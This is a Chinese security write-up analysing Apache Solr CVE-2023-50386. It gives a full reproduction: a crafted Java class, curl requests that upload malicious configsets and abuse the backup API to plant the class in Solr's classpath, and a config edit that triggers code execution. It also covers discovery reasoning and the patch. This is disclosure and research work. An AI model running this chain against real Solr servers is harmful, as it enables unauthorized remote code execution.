

# Apache Solr Backup/Restore APIs RCE (CVE-2023-50386) 分析及挖掘思路 - 先知社区

Apache Solr Backup/Restore APIs RCE (CVE-2023-50386) 分析及挖掘思路

- - -

Apache Solr 在创建 Collection 时会以一个特定的目录作为 classpath，从中加载一些类，而 Collection 的备份功能可以导出攻击者上传的恶意 class 文件到该目录，从而让 Solr 加载自定义 class，造成任意 Java 代码执行，可以进一步绕过 Solr 配置的 Java 沙箱，最终造成任意命令执行。  
该漏洞于 24 年 2 月 8 号公开，官方通告：[https://solr.apache.org/security.html#cve-2023-50386-apache-solr-backuprestore-apis-allow-for-deployment-of-executables-in-malicious-configsets](https://solr.apache.org/security.html#cve-2023-50386-apache-solr-backuprestore-apis-allow-for-deployment-of-executables-in-malicious-configsets)

## 影响范围

-   Apache Solr 6.0.0 through 8.11.2
-   Apache Solr 9.0.0 before 9.4.1
-   SolrCloud 模式

## 环境搭建

```bash
docker run --rm -ti --name solr9.0.0 -p 8983:8983 -p 5005:5005  solr:9.0.0 bash
# 启动并进入 solr 容器
solr start -c -a "-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005"
# 以 SolrCloud 模式启动 Solr，并附加 Java 调试参数
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210224825-71bb1b40-c823-1.png)

## 漏洞复现

### 准备 Solr 默认配置文件

先以 root 权限进入 Solr 容器，打包默认的配置文件并复制出来，当然也可以从 Solr 源码中获得：

```bash
docker exec -ti -uroot solr9.0.0 bash
cd /opt/solr-9.0.0/server/solr/configsets/_default
tar cf conf.tar conf/
exit
docker cp solr9.0.0:/opt/solr-9.0.0/server/solr/configsets/_default/conf.tar ~/Desktop/test/
tar xf conf.tar
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210224834-770cf1cc-c823-1.png)

### 编译恶意 class

编译一个包名为`zk_backup_0.configs.conf1`的 Java 类（容器内的 Java 版本为 17，注意版本兼容问题）

```bash
package zk_backup_0.configs.conf1;
import java.io.File;
public class Exp {
    static {
        try {
            new File("/tmp/success").createNewFile();
        }catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

### 上传配置文件`conf1`

将恶意 class 放入配置文件目录中，并打包上传到 Solr，命名为`conf1`

```bash
mv zk_backup_0/configs/conf1/Exp.class conf/
cd conf
zip -q -r conf1.zip *
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf1.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=conf1"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210224842-7c029efc-c823-1.png)

### 用`conf1`创建`collection1`

用上一步上传的配置`conf1`去创建一个 Collection，名为`collection1`

```bash
curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=collection1&numShards=1&replicationFactor=1&wt=json&collection.configName=conf1"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210224850-8110acfe-c823-1.png)

### 备份`collection1`，导出`conf1`

通过备份功能可以将`collection1`导出，其中包括创建`collection1`时用的配置文件，也就是`conf1`，从而恶意 class 也随之导出。

以下 API 中`location`为要导出的路径，`/var/solr/data/`是`SOLR_HOME`的路径。`name`为导出的名字，其实也就相当于路径的一部分

```bash
curl "http://127.0.0.1:8983/solr/admin/collections?action=BACKUP&collection=collection1&location=/var/solr/data/&name=collection2_shard1_replica_n1"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210224858-858d20b4-c823-1.png)

响应完成后，`collection1`被导出到了`/var/solr/data/collection2_shard1_replica_n1`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210224908-8b3ffe96-c823-1.png)

而它对应的配置被导出到了`/var/solr/data/collection2_shard1_replica_n1/collection1/zk_backup_0/configs/`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210224923-94b512fe-c823-1.png)

通过备份的接口再次导出`collection1`，注意`location`和`name`都有变化：

```bash
curl "http://127.0.0.1:8983/solr/admin/collections?action=BACKUP&collection=collection1&location=/var/solr/data/collection2_shard1_replica_n1&name=lib"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210224930-98c3e014-c823-1.png)

这次导出后，会发现我们的 class 最终在`/var/solr/data/collection2_shard1_replica_n1/lib/collection1/zk_backup_0/configs/conf1`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210224940-9e9924ae-c823-1.png)

目录结构`zk_backup_0/configs/conf1`与包名`zk_backup_0.configs.conf1`恰好对应

### 上传配置文件`conf2`

默认配置的`solrconfig.xml`文件有个`valueSourceParser`标签

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210224950-a4a7dce6-c823-1.png)

取消其注释，并修改为

```bash
<valueSourceParser name="myfunc" class="zk_backup_0.configs.conf1.Exp" />
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210224957-a8f4db82-c823-1.png)

打包上传，命名为`conf2`

```bash
rm Exp.class conf1.zip
zip -q -r conf2.zip *
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf2.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=conf2"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210225006-adf663d0-c823-1.png)

### 用`conf2`创建`collection2`

```bash
curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=collection2&numShards=1&replicationFactor=1&wt=json&collection.configName=conf2"
```

Collection 创建过程中会将`SOLR_HOME/collection2_shard1_replica_n1/lib/`下的 jar 包或者一级子目录作为 URLClassLoader 的 urls。并且会加载`solrconfig.xml`中配置的类，从而导致`zk_backup_0.configs.conf1.Exp`类的静态代码被执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210225019-b5d0bd94-c823-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210225025-b922953a-c823-1.png)

### 绕过沙箱

其实在 Solr 中通过这种方式执行 Java 代码是会受沙箱限制的，这也是为什么我用了`new File("/tmp/success").createNewFile();`创建文件来演示漏洞而非命令执行。

绕过也比较容易，参考：[https://www.mi1k7ea.com/2020/05/03/%E6%B5%85%E6%9E%90Java%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/#%E5%88%9B%E5%BB%BAClassLoader%E7%BB%95%E8%BF%87](https://www.mi1k7ea.com/2020/05/03/%E6%B5%85%E6%9E%90Java%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/#%E5%88%9B%E5%BB%BAClassLoader%E7%BB%95%E8%BF%87)

### 删除创建的配置和 Collection

```bash
curl "http://127.0.0.1:8983/solr/admin/collections?action=DELETE&name=collection1"
curl "http://127.0.0.1:8983/solr/admin/configs?action=DELETE&name=conf1"
curl "http://127.0.0.1:8983/solr/admin/configs?action=DELETE&name=conf2"
```

## 漏洞分析

漏洞复现过程尽管很复杂，但漏洞关键其实就几点

-   Solr 在创建 Collection 时会加载配置文件中设置的 Java 类，而 classpath 是一个特定的目录
-   备份 Collection 时会导出一系列配置文件，而这些文件由用户上传
-   备份导出的路径在一定程度上可控
-   所用到的 api 接口默认情况下均可未授权访问

### 挖掘思路

挖掘 Solr 前，我的目的很明确，只关注 RCE 漏洞，然后去大概了解了一下 Solr 的用途和历史漏洞。有一篇 Solr 的总结很全面：[https://paper.seebug.org/1515/](https://paper.seebug.org/1515/)

分析完历史漏洞后，感觉 Solr 最大的问题是默认情况下很多敏感的接口都是未授权可访问，我觉得这也是挖掘新洞的一个着手点。

其中关于配置集，和 Collection 管理的 api 尤其受关注。因为创建 Collection 时可以指定某个配置，而这些配置又由用户上传，配置中某些配置项又必然影响某些代码逻辑。

[https://solr.apache.org/guide/solr/9\_0/configuration-guide/configsets-api.html](https://solr.apache.org/guide/solr/9_0/configuration-guide/configsets-api.html)

[https://solr.apache.org/guide/solr/9\_0/deployment-guide/collection-management.html](https://solr.apache.org/guide/solr/9_0/deployment-guide/collection-management.html)

### 调试分析

#### 加载 lib

在org.apache.solr.handler.admin.CollectionsHandler#handleRequestBody打断点，然后发起如下请求

```bash
curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=test_collection&numShards=1&replicationFactor=1&wt=json&collection.configName=_default"
```

这里就是 Collection 相关请求的入口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210225038-c12e6c5e-c823-1.png)

然后到 org.apache.solr.core.SolrConfig#initLibs

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210225046-c61ffc14-c823-1.png)

这里的`libPath`即`/var/solr/data/test_collection_shard1_replica_n1/lib`，此路径如果存在的话，就会用这个路径下的 Jar 包和一级子目录作为 urls 创建 URLClassLoader，该 URLClassLoader 对象储存在`org.apache.solr.core.SolrResourceLoader#classLoader`。

（可以手动在这个目录下创建 lib，观察一下代码逻辑）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210225054-ca68cfd0-c823-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210225100-ce297516-c823-1.png)

后续读取配置文件中的类并加载的代码就不再跟了。

#### 写入 lib

后面的挖掘方向就是如何在`/var/solr/data/test_collection_shard1_replica_n1/lib`目录下写入所需文件，这是这个漏洞另一个关键的地方。

回到备份 Collection 的 api：

```bash
http://127.0.0.1:8983/solr/admin/collections?action=BACKUP&collection=collection1&location=/var/solr/data/&name=dirname
```

这个 api 调用示例的是将`collection1`导出到`/var/solr/data/`路径下的`dirname`目录，要求`location`这个目录必须提前存在，然后我们借由配置文件上传的可控的文件在更深的路径，即`/var/solr/data/dirname/collection1/zk_backup_0/configs/conf1/`

我一开始想往`/var/solr/data/test_collection_shard1_replica_n1/lib/`写入一个 Jar 包，也尝试目录穿越等等方法，发现确实无法做到。只能在`libPath`的子子子子目录写入可控文件，也就是`/var/solr/data/test_collection_shard1_replica_n1/lib/collection1/zk_backup_0/configs/conf1/`，当然把 Jar 包写在这里是不能被识别的。

后来想到 Java 的类结构，不也是`包名/包名/包名/类名.class`，刚好抵消这里多出来的子目录，所以就有了前文复现流程中的奇怪的包名。

## 漏洞修复

[https://github.com/apache/solr/commit/28d6b0163316376ef3b5429b3554c5041b47b5be](https://github.com/apache/solr/commit/28d6b0163316376ef3b5429b3554c5041b47b5be)

增加了备份导出时的文件类型黑名单

[](https://xzfile.aliyuncs.com/media/upload/picture/20240210225113-d5bd8204-c823-1.png)
